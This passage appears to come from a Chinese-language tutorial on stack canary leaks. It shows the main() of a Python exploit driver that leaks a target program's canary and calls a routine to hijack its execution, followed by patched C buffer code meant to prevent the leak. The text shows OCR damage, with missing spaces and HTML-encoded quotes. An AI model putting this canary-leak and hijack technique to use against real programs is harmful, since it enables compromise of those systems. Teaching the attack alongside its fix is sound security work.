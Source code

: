 ```

defmain():
    # We use 'stdbuf -o0' to force the targeted program pipes to be flushed
    # So we can read leaked canary/cookie immediately
    p = Popen( [&#34;stdbuf&#34;, &#34;-o0&#34;, TARGET_PATH], stdin=PIPE, stdout=PIPE )

    # Make stdout non-blocking when using read/readline
    flags = fcntl.fcntl( p.stdout, fcntl.F_GETFL )
    fcntl.fcntl( p.stdout, fcntl.F_SETFL, flags | os.O_NONBLOCK )

    canary = leak_canary( p )
    
    if bool( ~canary ):
        print( &#34;Canary : 0x%x&#34; % canary )
        hijack_exec( p, canary )
        exit_target( p )
        out, _ = p.communicate()
        print( out.decode() )
    else:
        exit_target( p )
        print( &#34;[-] Failed to leak the canary&#34; )

if __name__ == '__main__':
    main()
```

  
  
因此，必须按如下方式修改读取函数，以防止发生此类泄漏：  
  

```
#include<stdbool.h>
bool g_bCanRead = false;

voidbuf_write(Buffer *pBuf, char *cpData, size_t n){
    if ( pBuf->nSize ) 
        pBuf->data[ pBuf->nSize-1 ] = ' ';

    memcpy( pBuf->data + pBuf->nSize, cpData, n );
    pBuf->nSize += n;
    g_bCanRead = true;
}

voidbuf_read(Buffer *pBuf){
    if ( !pBuf->cpReadData )
        pBuf->cpReadData = pBuf->data;

    if ( !g_bCanRead ) {
        fputs( &#34;[-] Cannot Read&#34;, stderr );
        return;
    }

    printf( &#34;%s&#34;, pBuf->cpReadData );
    pBuf->cpReadData += pBuf->nSize;
    g_bCanRead = false;
}

voidbuf_readall(Buffer *pBuf){
    printf( &#34;%s&#34;, pBuf->data );
}
```

